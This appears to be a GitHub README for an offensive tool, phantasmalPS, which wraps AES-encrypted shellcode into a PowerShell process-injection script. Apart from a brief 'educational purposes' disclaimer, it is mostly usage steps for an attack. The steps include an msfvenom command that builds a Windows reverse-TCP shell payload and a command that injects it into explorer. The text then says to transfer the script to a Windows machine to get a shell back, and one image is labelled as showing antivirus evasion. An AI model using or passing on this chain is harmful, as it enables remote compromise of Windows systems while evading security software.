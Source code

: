 # phantasmalPS
This Python script generates a PowerShell Process Injection script with AES encrypted shellcode.

## Disclaimer
This repository is for educational purposes only. Do not use on computers or endpoints without authorization. I am not responsible for any damages you may cause. Use it at your own discretion.



## Simple Usage:
Let's start with installing the required libraries:
```python
pip3 install -r requirements.txt
```
```bash
python3 phantasmalPS.py -h
```
![Help](Images/phantasmalPS-help.png)

First generate a shellcode within your favorite C2 framework:
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport 8443 -f ps1 -o shell
```
Let phantasmalPS do its magic:
```bash
python3 phantasmalPS.py -f shell -p explorer
```
![Run](Images/run-phantasmalPS.png)

It generates a PowerShell file called "simplescript.ps1" n the same directory you downloaded phantasmalPS.py:
```bash
ls -l simplescript.ps1
```
![Attack](Images/file-check.png)

Now, transfer the PowerShell script to a Windows machine and get a shell back:

![Reverse Shell](Images/AV-evasion.png)

Thank you
